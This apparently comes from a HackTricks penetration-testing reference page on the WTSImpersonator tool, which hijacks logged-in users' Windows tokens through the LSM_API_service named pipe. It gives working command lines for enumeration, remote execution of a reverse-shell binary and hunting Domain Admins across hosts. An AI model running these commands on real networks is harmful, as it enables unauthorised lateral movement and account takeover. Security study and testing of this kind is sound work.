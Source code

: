 {{#include ../../banners/hacktricks-training.md}}

The **WTS Impersonator** tool exploits the **"\\pipe\LSM_API_service"** RPC Named pipe to stealthily enumerate logged-in users and hijack their tokens, bypassing traditional Token Impersonation techniques. This approach facilitates seamless lateral movements within networks. The innovation behind this technique is credited to **Omri Baso, whose work is accessible on [GitHub](https://github.com/OmriBaso/WTSImpersonator)**.

### Core Functionality

The tool operates through a sequence of API calls:

```powershell
WTSEnumerateSessionsA → WTSQuerySessionInformationA → WTSQueryUserToken → CreateProcessAsUserW
```

### Key Modules and Usage

- **Enumerating Users**: Local and remote user enumeration is possible with the tool, using commands for either scenario:

  - Locally:
    ```powershell
    .\WTSImpersonator.exe -m enum
    ```
  - Remotely, by specifying an IP address or hostname:
    ```powershell
    .\WTSImpersonator.exe -m enum -s 192.168.40.131
    ```

- **Executing Commands**: The `exec` and `exec-remote` modules require a **Service** context to function. Local execution simply needs the WTSImpersonator executable and a command:

  - Example for local command execution:
    ```powershell
    .\WTSImpersonator.exe -m exec -s 3 -c C:\Windows\System32\cmd.exe
    ```
  - PsExec64.exe can be used to gain a service context:
    ```powershell
    .\PsExec64.exe -accepteula -s cmd.exe
    ```

- **Remote Command Execution**: Involves creating and installing a service remotely similar to PsExec.exe, allowing execution with appropriate permissions.

  - Example of remote execution:
    ```powershell
    .\WTSImpersonator.exe -m exec-remote -s 192.168.40.129 -c .\SimpleReverseShellExample.exe -sp .\WTSService.exe -id 2
    ```

- **User Hunting Module**: Targets specific users across multiple machines, executing code under their credentials. This is especially useful for targeting Domain Admins with local admin rights on several systems.
  - Usage example:
    ```powershell
    .\WTSImpersonator.exe -m user-hunter -uh DOMAIN/USER -ipl .\IPsList.txt -c .\ExeToExecute.exe -sp .\WTServiceBinary.exe
    ```

{{#include ../../banners/hacktricks-training.md}}


